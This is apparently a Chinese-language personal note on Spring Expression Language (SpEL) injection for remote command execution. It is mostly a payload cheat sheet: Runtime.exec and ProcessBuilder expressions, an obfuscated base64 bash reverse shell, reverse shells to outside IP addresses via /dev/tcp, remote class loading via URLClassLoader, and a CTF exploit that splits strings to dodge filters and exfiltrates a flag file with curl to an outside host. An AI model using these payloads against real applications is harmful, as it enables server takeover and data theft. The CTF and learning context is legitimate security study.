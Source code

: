## 原理

Spring 表达式语言（简称“SpEL”）是一种强大的表达式语言，支持在运行时查询和操作对象图，但提供方法调用和基本的字符串模板功能，有点类似php中的eval，但不是执行任意代码，以下是一段会执行的spel的示例代码

```
public class test {
    static String val = "new java.lang.ProcessBuilder(\"calc\").start()";//将会执行的代码

    public static void main(String[] args) {
        spel(val);
    }
    public static String spel(String input){
        SpelExpressionParser parser = new SpelExpressionParser(); // 创建 SpEL 表达式解析器
        Expression exp = parser.parseExpression(input);// 解析输入的表达式
        String result = exp.getValue().toString();///执行命令，获取表达式执行结果，并将其转换为字符串，
        return result;
    }
}
```

![image-20231218211318117](F:\笔记\WEB\Java\SpEl命令执行.assets\image-20231218211318117.png)

能执行的语句：

在linux中Runtime中exec对复杂一点的命令执行不了,我们需要将其参数改成如下

```
new String[]{"/bin/bash\","-c","xxxxx"}
```

推荐一个网站[Runtime.exec Payload Generater | AresX's Blog (ares-x.com)](https://ares-x.com/tools/runtime-exec)

![image-20231218210130042](SpEl命令执行.assets\image-20231218210130042.png)

## ①

在JAVA中利用`Runtime`和`ProcessBuilder`类来使用Java执行Shell命令和脚本

```java
Process process = Runtime.getRuntime().exec("ping");
```

`T` 是 Spring Expression Language（SpEL）中的一个特殊运算符，用于获取类的引用，通过 `T` 运算符，可以在 SpEL 中访问类的静态方法、字段和嵌套类`T(java.lang.Runtime)` 表示获取 `java.lang.Runtime` 类的引用，然后使用这个引用来调用 `getRuntime()` 方法

```java
T(java.lang.Runtime).getRuntime().exec('calc.exe')

T(java.lang.Runtime).getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8zOS4xMDcuKioqLioqKi85MDAyIDA+JjE=}|{base64,-d}|{bash,-i}")
```

#### 注意

exec只能以字符串数组的形式执行命令

```
String[] command = {"bash","-c","bash -i >& /dev/tcp/8.130.20.254/12345 0>&1"};
Process process = Runtime.getRuntime().exec(command);
```

https://www.jianshu.com/p/ae3922db1f70

## ②

`new ProcessBuilder()`: 创建一个 `ProcessBuilder` 对象，用于构建和启动一个新的进程。构造函数接受一个字符串数组，其中包含要执行的命令和参数，`.start()`: 调用 `ProcessBuilder` 对象的 `start()` 方法来启动新进程，该进程将执行给定的命令

```
new java.lang.ProcessBuilder("calc").start()

((ProcessBuilder)Class.forName("java.lang.ProcessBuilder").getConstructor(List.class).newInstance(Arrays.asList("calc.exe"))).start();
```

## ③

`java.io.BufferedReader()`: 创建一个 `BufferedReader` 对象，用于缓冲字符输入流并提供更方便的读取方法

`java.io.InputStreamReader()`: 创建一个 `InputStreamReader` 对象，它用于将输入流的字节转换为字符，可以使用 `gbk` 字符编码来读取流中的字符

`.getInputStream()`: 获取新进程的标准输出流，用于从进程读取输出的流

```java
payload=new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine()

new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine()
```

## ④

其它的一些poc

```
"T(javax.script.ScriptEngineManager).getEngineByName(\"nashorn\").eval(\"s=[1];s[0]='calc';java.lang.Runtime.getRuntime().exec(s);\")"
```

```
"new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL('http://127.0.0.1:8888/')}).loadClass(\"evil\").getConstructors()[0].newInstance()"
```

```
new java.util.Scanner(new java.lang.ProcessBuilder("cmd", "/c", "dir", ".\\").start().getInputStream(), "GBK").useDelimiter("asfsfsdfsf").next()
```

```
${new java.lang.ProcessBuilder(new java.lang.String(new byte[]{99,97,108,99})).start()}
```

#### trick：

来自p神的题目Code-Breaking Puzzles — javacon：https://www.leavesongs.com/media/attachment/2018/11/23/challenge-0.0.1-SNAPSHOT.jar

```
package com.example.p_challenge;

import com.example.p_challenge.tool.UserConfig;

public class exp {
    public static void main(String[] args) {
        String payload="#{T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"ex\"+\"ec\",T(String[])).invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"getRu\"+\"ntime\").invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\")),new String[]{\"/bin/bash\",\"-c\",\"curl http://8.130.20.254:12345/`cat /flag|base64|tr '\\n' '-'`\"})}";
        UserConfig userConfig = new UserConfig();
        userConfig.username=payload;
        System.out.println(userConfig.encryptRememberMe());
    }
}
我们正常执行方法是 [1].method([2], [3], [4]...) ，其实在反射里就是method.invoke([1], [2], [3], [4]...)
其他的：
可以将T(String)换为''

#{T(javax.script.ScriptEngineManager).newInstance()
    .getEngineByName("nashorn")
        .eval("s=[3];s[0]='/bin/bash';s[1]='-c';s[2]='ex"+"ec 5<>/dev/tcp/1.2.3.4/2333;cat <&5 | while read line; do $line 2>&5 >&5; done';java.la"+"ng.Run"+"time.getRu"+"ntime().ex"+"ec(s);")}

这里为什么需要加#{…} 呢：
#{…} SpEL使用 #{...} 作为定界符，所有在大括号中的字符都将被认为是 SpEL表达式,用于执行SpEl表达式，并将内容赋值给属性
${…} 主要用于加载外部属性文件中的值
```

改变remember-me的值，服务器上就可以收到请求

![image-20231218211823043](F:\笔记\WEB\Java\SpEl命令执行.assets\image-20231218211823043.png)

推荐博客：https://boogipop.com/2023/08/06/SPEL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%80%BB%E7%BB%93%E5%8F%8A%E5%9B%9E%E6%98%BE%E6%8A%80%E6%9C%AF/#ClassLoader

https://www.cnblogs.com/bitterz/p/15206255.html#%E5%89%8D%E8%A8%80

http://rui0.cn/archives/1043
